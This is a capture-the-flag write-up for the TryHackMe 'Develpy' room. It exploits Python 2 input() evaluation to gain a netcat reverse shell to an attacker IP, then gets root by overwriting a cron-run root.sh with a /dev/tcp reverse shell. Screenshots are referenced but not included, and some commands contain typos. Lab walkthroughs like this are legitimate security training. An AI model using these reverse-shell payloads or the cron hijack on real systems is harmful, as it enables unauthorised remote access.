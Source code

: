 Resourcs : [[https://tryhackme.com/room/bsidesgtdevelpy]]
Aim : get user.txt and root.txt .

**-->Nmap_scan**
![[nmap.png]]

Since only two ports are open, this hints that we would get some ssh credentials from port 10000 to 
use it for ssh .

So alanysing port 10000,
![[Pasted image 20220627193927.png]]
this shows that on connecting to it , it executes some python file.
So , let's connect:

**-->Nc**
![[Pasted image 20220627193724.png]]
u enter any number it will accept, but the interesting this is that it also accepts eval(2 * 2) . This type of flaw was found in python2 input() finction.
On googling it i found a website [[https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html]]
![[Pasted image 20220627194714.png]]
So, i just needed to to put commands to gain a reverse shell under the system parameters.
enter the codes  below to get a rev shell.
`__import__("os").system("nc -e /bin/sh 10.8.82.127 6969")`

**-->SHELLS**
![[Pasted image 20220627195740.png]]
stabilising the shell with 
`python -c 'import pty; pty.spawn("/bin/bash")'`
![[Pasted image 20220627203345.png]]
-->file contents :
![[Pasted image 20220627204024.png]]
On exploring we see that in crontab the root runs root.sh file in king's directory.
On going one directory we see that the home directory is owned by the user 'king' .
Hence we would delete the root.sh file and make one of our own (as write permission is not there in present one)
![[Pasted image 20220627203640.png]]
*simple* : executing the following commands
`ehco "sh -i >& /dev/tcp/10.8.82.127/ 5051 0>&1" >root.sh`
this creates a new root.sh
now wait for one minute.
![[Pasted image 20220627212159.png]]
GREAT we got the root shell after one minute.
That's all for this challenge !!


